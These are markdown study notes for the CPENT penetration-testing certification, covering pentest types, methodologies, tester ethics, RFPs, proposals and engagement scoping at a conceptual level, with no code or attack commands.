






[TOC]


# CPENT (Certified Penetration Testing Professional)


# Module 01 Introduction to Penetration Testing and Methodologies

## What is Penetration Testing?

1. Penetration testing is a type of security testing that evaluates an o**rganization’s ability** to protect its
   infrastructure such as network, applications, systems, and users against external as well as internal threats.

2. It is an effective way of determining the efficacy of the organization’s security policies, controls, and
   technologies.

3. It involves the active evaluation of the security of the organization’s infrastructure by **simulating an attack** similar to those performed by real attackers.

4. During a penetration test, security measures are actively analyzed for **design weaknesses, technical flaws**, and **vulnerabilities**.

5. The test results are documented and delivered in a **comprehensive report** to executive management and technical audiences.

## Benefits of Conducting a Penetration Test

1. Proactively **identifies threats** and determines the **probability of an attack** on information assets
2. Assures the organization that it is operating within an **acceptable limi**t of information security risks
3. Helps in determining the feasibility of a set of attack vectors and **potential business impact** of a successful attack
4. Provides a comprehensive approach for preparation steps that can be taken to **prevent an upcoming exploitation**
5. Ensures the effective implementation of security controls and a better **return on investment** (ROI)
   on IT security
6. Achieves **compliance** with regulations and industry standards (ISO/IEC 27001:2013, PCI-DSS, HIPPA, FISMA, etc.)
7. Focuses on high-severity vulnerabilities and emphasizes **application-level security issues** for development teams and management
8. Evaluates the efficiency of **network security devices** such as firewalls, routers, and web servers

## Penetration Testing Service Delivery Models: Conventional vs. Next Generation

### In-house Penetration Testing

- Organizations havea dedicated penetration testing team in place.
- This team is continuously engaged in in-house pen testing assignments.

### Outsourced Penetration Testing Service

- Theseare the “at a point in time” penetration testing services provided by third-party penetration testing consultancies.
- Organizations outsource their penetration testing assignments to these third-party penetration testing
  consultancies to evaluate the security of their organization.

### Penetration Testing as a Service (PTaaS)

- It is a cloud service that provides penetration testing along with the resources needed to conduct at-a-point-in-time and continuous penetration tests.

### Crowdsourced Penetration Testing Services

- Itis an open-ended pen testing assignment in which pen testers worldwide attempt to determine the
  vulnerabilities in a target environment.


## ROI for Penetration Testing

1. Penetration testing helps companies in identifying, understanding, and addressing any vulnerabilities;
   this saves them a lot of money, resulting in a good ROI.
2. Demonstration of ROI is a critical process for the successful “sale” of a pen test.
3. ROI for a pen test is demonstrated with the help of a business case scenario, which includes the
   expenditure and involved profits.
4. Companies spend resources on a pen test only if they have proper knowledge of its benefits.

**ROI = (Expected Returns - Cost of Investment)/Cost of Investment**


## Comparison of Security Audit, Vulnerability Assessment, and Penetration Testing

**Security Audit**

- A security audit checks whether an organization follows  set of standard **security policies and procedures**.

**Vulnerability Assessment**

- A vulnerability assessment focuses on **discovering the vulnerabilities in an information system** but provides no indication of whether the vulnerabilities can be exploited or of the amount of damage that
  may result from the successful exploitation of the vulnerabilities.

**Penetration Testing**

- Penetration testing is a methodological approach to security assessment that **encompasses a security audit** and vulnerability assessment, and it and demonstrates whether the vulnerabilitiesin a system can be successfully exploited by attackers.


1. Penetration Testing should not be simply ticking check boxes to meet security requirements.
2. Vulnerability scanning should be part of pen testing program but is not a substitute.
3. Penetration testing focuses on achieving goals not finding vulnerabilities.


## Types of Penetration Assessment: Goal-oriented vs. Compliance-oriented vs. Red-team-oriented
### Goal-oriented/Objective-oriented Penetration Testing

- This type of assessments is driven by goals. The objectives of the penetration test are defined, rather than defining the scope of target
- The goal of penetration assessment is defined before it begins.
- The job of the pen tester to check whether he/she can achieve the goal and to determine the different ways to achieve the goal.

**Examples**

- Gain remote access to an internal network

- Gain access to credit-card information
- Gain domain administrator access
- Create a denial of service (DoS) condition againsta website
- Deface a website


### Compliance-oriented Penetration Testing

- This type of assessments is driven by compliance requirements. It is testing against adherence to compliance requirements. It entails conducting an assessment against compliance requirements of cyber security standards, frameworks, laws, acts, etc.
- For example, an organization may ask to perform a security assessment against PCI-DSS requirements.


### Red-team-based Penetration Testing

- Red-team-based penetration testing is an adversarial goal-based assessment in which he pen tester must mimic the behavior of a real attacker and target the environment.
- This type of assessment has no specific driver.
- For example, an organization may ask to conduct a security assessment for evaluating
  its overall security. It may include assessing people, networks, applications, physical
  security, etc.

## 3 Types of Penetration Testing

### 1. Black-box Penetration Testing

- Black-box testing assumes that the pen tester has no previous knowledge of the infrastructure to be tested.
- The tester has limited information about the target company.
- The penetration test must be conducted after extensive information gathering and research.
- This test simulates the process of real hacking and gathers publicly available information
  such as domain and IP addresses.
- A considerable amount of time allocated for the project is spent on discovering the nature
  of the infrastructure and how it connects and interrelates.
- It is time-consuming and expensive.

#### Black-box testing is further classified as follows:

##### Blind Testing

- Simulates the methodologies of a real hacker
- Limited or no information provided to the penetration testing team
- Time consuming and expensive process

##### Double-blind Testing

- Few people in the organization aware of the penetration testing being conducted
- Involves testing an organization's security monitoring, incident identification, and response procedures

### 2. White-box Penetration Testing

- The tester is given complete information on the infrastructure to be tested.
- This test simulates the process of a company’s employees.
- It helps in revealing bugs and vulnerabilities more quickly.
- It provides assurance on complete testing coverage as the tester knows what exactly to test.

#### White-box testing is further classified as follows:

##### Announced Testing

- Attempts to compromise systems on a client network with the full cooperation and knowledge of IT staff personnel
- Examines the existing security infrastructure for possible vulnerabilities
- Involves the client organization’s security staff and the penetration testing team

##### Unannounced Testing

- Attempts to compromise systems on the client network without the knowledge of the IT security
  of IT staff personnel
- Only the upper management is aware of these tests
- Examines the security infrastructure and responsiveness of IT staff

The following are some of the information that could be provided through this type of test:

- Company infrastructure
- Network type
- Current security implementations
- IP Address/Firewall/IDS/IPS details
- Company policies do's and dont's

### 3. Gray-box Penetration Testing

- This test is a combination of black-box and white-box penetration testing

- In gray-box test, the tester usualy has limited information

- Security assessment and testing are internally performed

- It tests applications for all vulnerabilites that a hacker might find and exploit

- It performed mostly when a penetration tester starts a black-box test on well protected systems and finds that a little prior knowledge is required to conduct a thorough review.

## The following are some of the factors that affect the cost of a penetration test:

### 1. Complexity

The most important factor is the company’s infrastructure; the cost depends on the size of the environment and number of network devices involved. More complex environments need more work for the tester to find every possible vulnerability.


### 2. Methodology

Penetration testers use different methodologies to test a network. Some use their own test, while others may use expensive tools, which can increase the cost. However, it is a good idea to use expensive tools because they reduce the time to test and may produce higher-quality results as compared to custom tests.

### 3. Experience

The cost depends on the experience of the tester. Because there may be fake penetration testers working at low cost, it is advisable to choose a tester with a certification such as Global Information Assurance Certification (GIAC), Certified Ethical Hacker (CEH), Certified Information Systems Security Professional (CISSP), or Offensive Security Certified Professional (OSCP).

### 4. Onsite

In some cases, penetration testing can be performed offsite; however, if the environment
is very complex, an onsite visit is required for testing. For social engineering and physical
security, an onsite visit is mandatory.


## Selection of Appropriate Testing Type

- The specific type of test should be selected based on the demand, goal, time, and resources available.
- A black-box test is performed toward comprising the security of an organization by mimicking the actions of a real-world attacker.
- However, white-box or gray-box testing can be useful when considering their advantages in terms of the time and resources available to the tester.
- Careful test planning and understanding of testing constraints are required when limited time and resources are available for conducting the test.


## Methods of Penetration Testing

### Automated Penetration Testing

- is performed with the help of various commercial or open-source penetration testing/security assessment tools.

### Manual Penetration Testing

- is performed by an individuals who are experts in penetration testing

#### Types of manual penetration testing

##### Focused

- This type is used to test only specific vulnerabilities and risks. The test is performed only by human experts whow examine specific applications within the given domain.

##### Comprehensive

- In this type, all systems that are connected to a shared network are tested to identify a wide range of risks and vulnerabilities.

####  Steps involved in manual penetration testing

##### 1. Data collection

Data can be collected either manually or by using tools freely available online. Information that can be gathered with the help of tools include database versions, software, table names, hardware, and third-party plugins.

##### 2. Vulnerability assessment

After gathering the information, the tester identifies weakness and accordingly takes preventive steps.

##### 3. Actual exploit

Now, the tester launches an attack on the target system. This is a very difficult step that requires an expert tester to execute. 

##### 5. Report preparation

Finally, the tester prepares a final report that describes the overall pros and cons of the system. The report is analyzed to take corrective steps to secure the target system.

## Common Areas of Penetration Testing

### 1. Network Penetration Testing

- Helps identify security issues in network design and implementation
- Common network security issues:
  - Use of insecure protocols
  - Unused open ports and services
  - Unpatched operating system (OS) and software
  - Misconfiguration in firewalls, intrusion detection system (IDS), servers, workstations, network services, etc.

### 2. Web Application Penetration Testing

- Helps detect security issues in web applications due to insecure design and development practices
- Common web application security issues:
  - Injection vulnerabilities
  - Broken authentication and authorization
  - Broken session management
  - Weak cryptography
  - Improper error handling

### 3. Social Engineering Penetration Testing

- Helps identify employees who do not properly authenticate, follow, validate, and handle processes and technology
- Common behavioral issues in employees that can pose serious security risks to the organization:
  - Clicking on malicious emails
  - Becoming a victim of phishing emails and phone calls
  - Revealing sensitive information to strangers
  - Allowing unauthorized entry to strangers
  - Connecting a USB device to workstations

#### Following are some effective social engineering techniques:

##### Phishing

The tester simply sends an email that tricks users into clicking on something. The tester records that activity or installs a program. For a successful phishing campaign, the tester must remember to check grammar and spelling and try to make the mail appear genuine, believable, and short. The best tool for phishing attacks is the open-source Social-Engineer Toolkit (SET).

##### Pretexting

In this technique, the hacker calls the target person and asks for information while pretending to be an authentic user that needs assistance. By performing this technique, the penetration tester can target nontechnical users who may disclose sensitive data.

##### Media dropping

This technique involves the dropping of a USB flash drive near a parking lot or entrance area where people can easily see it. This drive contains some interesting music or movie files that the victim can easily download; when it is opened, however, it launches a client-side attack. To implement such a technique in penetration testing, the tester must develop custom attacks and programs in a USB drive or purchase USB
drives that are prebuilt for this purpose.

##### Tailgating 

In this technique, an unauthorized person can enter the company’s premises by fooling the staff or simply walking in. To prove the success of this test, the tester must obtain sensitive data or install a device quickly; they can even take photographs of exposed files or documents left on desks or printers.

### 4. Wireless Network Penetration Testing

- Helps identify misconfigurations in wireless network infrastructure
- Common security issues in wireless network infrastructure:
  - Unauthorized/rogue/open access points
  - Insecure wireless encryption standards
  - Weak encryption passphrases
  - Unsupported wireless technology

### 5. Mobile Device Penetration Testing

- Helps detect security issues associated with mobile devices and their use
- Common security issues with mobile devices:
  - No implementation or improper implementation of the bring your own device
    (BYOD) policy
  - Use of unauthorized mobile devices 
  - Use of rooted or jailbroken mobile devices
  - Weak security implementation on mobile devices
  - Connection with insecure Wi-Fi networks

### 6. Cloud Penetration Testing

- Helps identify security issues in cloud infrastructure
- In addition to conventional security issues, cloud services have the following cloud-specific security issues
  - Insufficient protection to data at rest
  - Network connectivity and bandwidth problems as per minimum requirement
  - Poor user access management
  - Insecure interfaces and application programming interfaces (APIs)
  - No privacy for users’ actions in the cloud
  - Security threats from inside the organization

## Penetration Testing Process

### 1. Defining the Scope

- Extent of testing
- What will be tested
- Where testing will be performed from
- Who will perform testing

### 2. Performing the Penetration Test

- Involves gathering all information significant to security vulnerabilities
- Involves testing the targeted environment such as network configuration, topology, hardware, and software

### 3. Reporting and Delivering Results

-  Listing vulnerabilities
- Categorizing risks as high, medium, or low
- Recommending repairs if vulnerabilities are found

## Penetration Testing Phases

### 1. Pre-Attack Phase

- Research (Information Gathering)

**Activities:**

- Active Reconnaissance
  - port scanning, service scanning, OS scanning
- Passive Reconnaissance
  - retrieving network registration information from whois databases, social engineering

### 2. Attack Phase

- Testing/Explotation

**Activities:**

- Perimeter testing: measures the firewall's ability to handle fragmentation. It proviides an understanding of how internet connected networks are vulnerable to hacking.
- Web application testing: It provides a security assessment of various kinds of applications.
- Wireless testing: Wireless testing activity involves checking all wireless routers, access points, and gateways for vulnerabilities.
- Application security assessment: Application security assessment has a methodology similar to that of external penetration testing,
- Network security assessment: Network security assessment identifies risks and vulnerabilities that may harm network and security policies. It also provides information needed to make network security decisions.
- Wireless/remote access security assessment: Wireless/remote access security assessment identifies the security risks of wireless devices. Some of the wireless technologies with security risks are 802.11 wireless networking, broadband Internet access, and so on. Hence, precautions must be taken so that the architecture, design, and deployment of such solutions are secure.
- Database penetration testing: Database penetration testing identifies security issues in databases. The database penetration tester tests the database layer by layer and documents the security weaknesses in every layer. As the database is the most critical asset of an organization, each component is valuable for the success of the entire system. This type of penetration test is conducted to find security breaches in the whole system and to assist in the implementation of the required safeguards.
- File integrity checking: File integrity checking focuses on the size, version, and ‘modifications in files. It checks the login details of the users who modify existing files. Further, it adopts integrity checking techniques.
- Log management penetration testing: Log management penetration testing focuses fon the security issues in log files. Organizations use log data for strengthening information security with the help of advanced audits and data correlation. It is also used for troubleshooting and meeting compliance initiatives. This type of penetration test scans for log files and checks whether the logs are encrypted,
- Telephony security assessment: Telephony security assessment checks the security Issues of voice technologies used in organizations. In telephony security assessment, penetration testers exploit private branch exchanges (PBXs) to check mailbox deployment and security, routing of calls at the target’s expense, unauthorized modem use, voice over IP integration, and associated risks.
- Data leakage penetration testing: Data leakage is one of the most debilitating problems that occur within an organization. An organization needs to perform data leakage penetration testing to protect its confidential data from malicious users.
- Social engineering: Social engineering is an intrusion process associated with human interactions and deception that involves the breach of simple and basic security procedures. This process exploits the weaknesses and amicability of people. The eavesdropping technique plays a vital role in the process of social engineering.
  

### 3. Post-Attack Phase

- Documentation and Reporting

**Activities**

- Reversing all file and setting manipulations performed during the test
- Reversing all changes to privileges and user settings
- Mapping of the network state
- Documenting and capturing all logs registered during the test

## Penetration Testing Methodologies

### Proprietary methodologies

There are many organizations that work on penetration testing and offer services and
certifications. Network security organizations have their own methodologies that are to
be kept confidential. The following are some proprietary methodologies:

- **EC-Council’s Licensed Penetration Tester (LPT)**

- **IBM**

- **ISS**

- **McAfee Foundstone**

### Open-source and public methodologies

A wide range of methodologies are publicly available. They can be used by anybody and
are intended for public use only.

- **Open Source Security Testing Methodology Manual**

The Open Source Security Testing Methodology Manual was compiled by Pete Herzog. It is a standard set for penetration testing to achieve security metrics. It is considered the de-facto highest level of testing, and it ensures high consistency and remarkable accuracy.

- **Information Systems Security Assessment Framework**

The Information Systems Security Assessment Framework evaluates an organization’s information security processes and policies.

- **National Institute of Standards and Technology**

The National Institute of Standards and Technology (NIST) is a federal technology agency that works with the industry to develop and apply technology, measurements, and standards.

- **Open Web Application Security Project**

The Open Web Application Security Project is an open-source methodology. It provides a set of tools and a knowledge base, which help in protecting web applications and services. It is beneficial for system architects, vendors, developers, security professionals, and consumers who might work on designing, developing, deploying, and testing the security of web services and web applications.

- **CREST**

CREST is the not-for-profit accreditation and certification body representing the   technical information security industry. CREST provides internationally recognized accreditation for organizations and individuals providing penetration testing, cyber incident response and threat intelligence services.

## EC-Council's LPT Methodology

1. Information Gathering
2. Scanning and Reconnaissance
3. Fingerprinting and Enumeration
4. Vulnerability Assesment
5. Exploit Research and Verification
6. Reporting

## When Should Pen Testing Be Performed?

Penetration testing must be performed on a regular basis to ensure that all existing and newly discovered vulnerabilities are identified and fixed before a cybercriminal exploits them. In recent times, many new attacks have been reported, which indicates that even hackers are attempting new methodologies and techniques. An organization must be prepared with solutions for any new kind of attack. However, most companies neglect the possibility of such a situation and wait too long to conduct penetration testing; they conduct tests either when it is required by law or, in the worst case, only when a company has already been breached.

The question of when pen testing should be performed is difficult to answer because the answer depends on the company. For instance, high-profile companies that are often mentioned in the media are the most prone to attacks. Such companies must regularly perform penetration testing.

###  The following are some scenarios where penetration testing is required:
-  Changes have been made in the organization’s infrastructure.
- Anew threat to the organization’s infrastructure has been discovered.
- Hardware or software has been updated or reinstalled.
- The organization’s policy has changed.
  

## Ethics of a Penetration Tester

Every penetration tester must have ethics that help them avoid illegal activities and serve their
clients in a better way. Most organizations make the tester sign an agreement to clarify the
current laws and protect their clients. The laws can differ from country to country. Therefore, it
is very important for a penetration tester to be aware of the current laws and legal agreement
with an organization, and the tester must be highly ethical and fully professional at all times.

**The following are some of the ethical requirements of a penetration tester:**

- Perform penetration testing with the express written permission of the client. 
- Work according to the nondisclosure and liability clauses of a contract.
- Test tools in an isolated laboratory prior to an actual penetration test.
- Inform the client about any possible risks that might emanate from the tests.
- Notify the client at the first discovery of any highly vulnerable flaws.
- Deliver social engineering tests results only in a summarized and statistical format.
- Try to maintain a degree of separation between the criminal hacker and the security
  professional.

## Qualification, Experience, Certifications, and Skills Required for a Pen Tester

The quality of penetration testing depends on the tester’s qualifications. Penetration testing skills
cannot be obtained without years of experience in IT fields such as development, systems
administration, or consultancy. A pen tester should possess security certifications such as CEH,
CPENT, CISSP, and CISA.

**Qualification**
The professional penetration tester must possess the following qualifications:

- Certified Register of Ethical Security Testers (CREST)

- Cyber-security certifications (CHECK, CTM, CTL, CREST, TIGER, OSCP)

- A degree in computer security, computer science, or equivalent

- Recognized security testing certifications (GIAC and CEH)

Experience

- The professional pen tester must have sound knowledge and experience in handling
  various penetration test tools including open and commercial mapping.
- They must possess experience in systems, networks, and web-based applications.
- It is desirable to have experience in using problem-solving techniques and developing
  a solution to meet vulnerability threats.
- They must possess good communication skills to explain technical details to
  nontechnical parties.
- They must be proficient at report writing and scripting skills and have good experience
  at reverse engineering.
- Consulting experience is an added advantage because they must understand the
  client's needs and build a positive relationship with them,

**Certifications**

- CEH: Certified Ethical Hacker
- CPENT: Certified Penetration Testing Professional
- CEPT: Certified Expert Penetration Tester
- GPEN: GIAC Certified Penetration Tester
- OSCP: Offensive Security Certified Professional
- CCISSP: Certified Information Systems Security Professional
- GCIH: GIAC Certified Incident Handler
- GCFE: GIAC Certified Forensic Examiner
- GCFA: GIAC Certified Forensic Analyst
- CCFE: Certified Computer Forensics Examiner
- CREA: Certified Reverse Engineering Analyst
- PTC: Certified Penetration Testing Consultant 
- CPTE: Certified Penetration Testing Engineer
- CompTIA: Security+
- CSTA: Certified Security Testing Associate

**Required skills sets of a penetration tester**

A professional penetration tester should possess the following skill sets:

- Strong knowledge of current and emerging technology, methodologies, and tools in the security industry
- Familiarity with network security concepts, software architecture and design, and engineering processes
- Knowledge of hardware concepts such as the following:
  - Networking: Transmission Control Protocol/internet Protocol (TCP/IP) concepts
    and cabling techniques
  - Ethical hacking techniques: exploits, hacking tools, and so on.
  - Open-source technologies: MySQL and Apache
  - Wireless protocols and devices: 802.11x and Bluetooth
  - Troubleshooting skills
  - Routers, firewalls, and IDS
  - Databases: Oracle and MSSQL
  - OS skills: Windows, Linux, Mainframe, and Mac
  - Web application architecture and Hypertext Transfer Protocol (HTTP) request and response concepts
  - Web servers, mail servers, Simple Network Management Protocol (SNMP) stations, and access devices

# Module 02 Penetraion Testing Scoping and Engagement

## Penetration Testing: Pre-engagement Activities

- Pre-engagement activities set the foundation for managing and successfully executing a penetration testing engagement.
- These pre-engagement activities constitute an important component in penetration testing and should not be overlooked by a pen tester or client.
- If the client and pen tester fail to properly follow the pre-engagement activities, they may face issues such as scope creeping, unsatisfied customers, and even legal issues in their penetration testing engagement.
- The pre-engagement activities in a penetration test start with determining the goal of the test.

**Penetration Testing: Pre-engagement Activities**

Pre-engagement activities help establish a clear understanding between the client and penetration tester. They set the foundation for managing and successfully executing a penetration testing engagement. These pre-engagement activities constitute an important component in penetration testing and should not be overlooked by a penetration tester or client. If the client and pen tester fail to properly follow the pre-engagement activities, they may face issues such as scope creeping, unsatisfied customers, and even legal issues in their penetration testing engagement. The pre-engagement activities in a penetration test start with determining the goal of the test.

The primary objectives for conducting pre-engagement activities are as follows:

- Evaluate the scope of penetration testing.

- Understand the type of penetration testing required.

- Determine the penetration test procedure.

- Identify the amount of resources needed for the test.

- Outline the rules of engagement (ROE).

- Determine the metrics for estimating the time and cost of the test.

- Estimate the overall cost.

- Ascertain the limits of engagement.

- Learn about the laws in the jurisdiction of the test location.

## Initiation of a Pen Testing Engagement Process
An RFP is an invitation to penetration testers to submit their proposals of penetration testing services to the client organization. The client first distributes an RFP document to various penetration testing vendors or publishes one, asking the vendors to submit proposals before a due date. The main purpose of the RFP is to inform the vendors about the penetration testing opportunity and allow them to submit bids on various platforms such as websites, portals, and other applications.

An RFP helps organizations select an appropriate vendor that can meet their requirements and provide quality services. This RFP template also lists a set of questions related to different domains that the organization uses to assess and evaluate the proficiency of vendors. 

The following are the contents of an RFP.

- **Purpose of the RFP**

  The goals of the organization in relation to penetration testing are as follows:
  - Evaluate the security of the organization.
  - Identify any security issues that will impact the business.
  - Submit the findings and recommendations.

- **Technical and contractual contact**

  This component has contact details of individuals to contact for proposal submission, specifications, SOW requirements, contract terms, conditions, and so on. The following table presents a format that can be used for each contact.

  | Name    | John |
  | ------- | ---- |
  | Address |      |
  | Phone   |      |
  | Email   |      |

- **Schedule of events**

  This component specifies the timetable for events before engagement. The following table presents sample schedule of events.

  | Event                                              | Date |
  | -------------------------------------------------- | ---- |
  | RFP distribution to vendors                        |      |
  | Questions from vendors about scope of approach due |      |
  | Responses to vendors about scope or approach due   |      |
  | Proposal due date                                  |      |
  | Target date for review of proposals                |      |
  | Anticipated decision and selection of vendors      |      |
  | Anticipated commencement date of work              |      |

## Proposal Submission
The RFP provides details of the selection standards and procedures set by the organization. It also includes guidelines for filling the proposal document and the rights of the organization. Before submitting the proposal, the penetration tester should read the document carefully and understand all the conditions and disclaimers mentioned in it. 

The organization awards the contract to the penetration tester whose proposal, in response to the RFP, is the most responsive and requires relatively low resources such as time and cost. The organization has the following rights while awarding contracts to vendors: 

- It can deny any or all offers and suspend the entire RFP process without any liability to the vendors.

- There is no rule dictating that organization must award the contract to vendor who offered the lowest price. The firm has the right to reject the lowest-price offer and select the vendor as per its requirements.

- The organization can also select the vendor on a first-come-first-serve basis, without considering or waiting for the best offer.

- It can award more than one contract to the same vendor.

A proposal in response to an RFP should contain the following elements.

- **Executive summary**: High-level synopsis, features, and benefits of the proposed engagement
- **Approach and methodology**: Detailed testing procedures and technical expertise needed for the engagement
- **Project deliverables**: Types of reports that will be provided (executive summary report, technical report, and so on)
- **Project management**: Method and approach used for project management and how the engagement will proceed from start to end
- **Itemized pricing**: Details on how charges will be calculated
- **References**: Relevant references for similar work performed in the past
- **Team strength**: Biographies and relevant experience of team members
- **Company Briefing**: Information on the company with its official address, contact details, expertise in offering similar services, etc.

## Common Evaluation Criteria for Proposals
**The decision on selecting a proposalis based on the following:**

- What has been taken into consideration while deciding the operational, technical, cost, and management requirements
- Responsiveness to the RFP
- Price quoted for all the items mentioned in RFP

The client evaluates proposals based on the penetration testing organization’s considerations in deciding the operational, technical, and management requirements, as well as the total cost incurred for testing the items listed in the RPF. The client also considers the responsiveness of the penetration testing organization and its interest in the RFP. The main criterion is the price quoted by the organization for completing the project.

**The client can also consider the following primary considerations for evaluating proposals:**

- Completion of the responses mentioned in the RFP in an organized, detailed, and correct format
- Ability to propose an effective solution based on the stated requirements
- Ability to deliver the proposed service against specifications
- Experience, stability, past record, and results on similar engagements
- Ability and availability of sufficient highly skilled team members
- Experience and qualification of the key personnel assigned
- Ability to propose an effective solution including best-practice methodologies, areas of focus, and proposed tools based on the stated requirements

During evaluation, the client may ask penetration testers for an oral presentation on the proposal. This provides an opportunity for the client to ask any questions they might have on the proposals submitted.

## Preparing for Proposal Submission: Identifying Scope, Approach, and Methodology

**Sending a Preliminary Information Request Document to the Client**

The preliminary information request document provides guidelines for gathering basic information about the client’s expectations from the penetration test. It contains the client’s contact details; objectives and scope of penetration testing; a list of networks and devices such as servers, workstations, routers, firewalls, and network devices to test; and so on.


## Scoping the Penetration Test
The major goal of penetration testing is to perform a quality test of a realistic target while balancing both the time and resources of the client. To achieve this goal, penetration testers should have complete knowledge of all the possible networks, devices, infrastructure, and security that they need to test. Scoping is one of the important parts of the penetration testing engagement process. Scoping the target organization helps in assessing the possible elements and determining the approach and speed of tests, the tools required, and ROE. It further helps in preparing the test plan, limitations, business objectives, and time schedule for the proposed penetration test.

**Scoping helps define clear objectives, with which the following can be identified:**

- What will be tested

- How it should be tested

- What resources will be allocated

- What limitations will be applied

- What business objectives will be achieved

- How the test project will be planned and scheduled

The penetration test environment includes networks, applications, systems, servers, databases,   new technologies, cloud systems, Internet service providers (ISPs), and managed security service   providers (MSSPs). Penetration testers must gather the client requirements through verbal or   written communication and assess the limitations of tasks.

**The following are some key factors to consider when scoping a penetration test:**

- Target’s criticality
  The criticality of a target may vary based on the business services or activities it offers. Penetration testers should determine in advance the mission-critical systems, networks, services, and applications as part of scoping.

- Test location
  Some clients allow the penetration tester to work on site, while others prefer off-site locations as they do not want their employees to know about the test. The test location helps the penetration tester determine the approach and methodology required as well as gauge the client’s requirements.

- Test volume It is important to have an idea of the approximate number of systems involved in the test, number of IP addresses, list of web pages and parameters, and so on as this will help in determining the time and cost of the penetration test.

**The advantages of scoping a penetration test are as follows:**

- Scoping ensures the consistency and high success rate of the penetration test.

- A carefully defined scope helps in preventing collateral damage from intrusive scans or exploits.

- A lack of scoping can lead to a huge chance of failure of the penetration test because assessment requirements will have no proper definitions or procedures to follow.
- Scoping helps address all the required attributes to start the penetration testing project in a professionally sound manner.

# Module 03 Open Source Intelligence (OSINT)

**Open Source Intelligence (OSINT) gathering is required for all types of penetration tests.**

